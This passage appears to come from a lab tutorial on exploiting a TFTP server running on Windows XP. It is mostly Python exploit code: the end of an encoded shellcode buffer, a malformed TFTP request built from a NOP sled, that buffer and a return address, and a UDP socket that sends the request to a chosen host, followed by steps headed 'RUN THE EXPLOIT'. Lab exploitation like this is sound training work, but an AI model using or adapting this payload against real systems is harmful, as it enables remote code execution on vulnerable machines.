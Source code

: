 ```python
buf += "\x47\x4f\x97\x6a\x64\x6e\x4e\x77\xb8\xe9\x19\x1b\xe4"
buf += "\x15\x7b\x1c\x04\x14\xa0\x86\x4e\x14\x66\xcd\x11\x97"
buf += "\x0d\xa1\x8d\x0a\x9a\x29\xa6\x0a\xfb\xfa\xd0\xda\x30"
buf += "\xce\x74\x6c\x44\x1c\xda\xc6\xcc\xd9\x96\x86\xef\xcf"
buf += "\xc2\x14\x43\xbc\xbf\xd9\x30\x01\x13\x57\x51\xe3\x12"
buf += "\x88\x96\xe9\x43\x04\xc1\x54\x8c\x75\xf2\x70\x35\x33"
buf += "\xa5\x13\x45\x95\x21\x83\x79\xb2\x4f\x51\x1c\xab\x4e"
buf += "\xee\x86\x78\xd8\xf3\x2d\x6f\x89\xa4\xd7\x36\x7a\x4f"
buf += "\xe7\x9f\xd5\xfb\x1b\x70\x85\x54\x77\x16\x90\x9a\x4f"
buf += "\x29\x04"
 
exploit = "\x00\x02" + nop + buf + ret + "\x83\xc4\x28\xc3\x00netascii\x00" 	# Our exploit
 
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)	# Declare a UDP socket
client.sendto(exploit, (host, port))				# Send the exploit over UDP to the nominated addresses
```

**RUN THE EXPLOIT** 

* Start the tftpd in windows XP

![](../assets/standalone_1.png)

* Create your python script
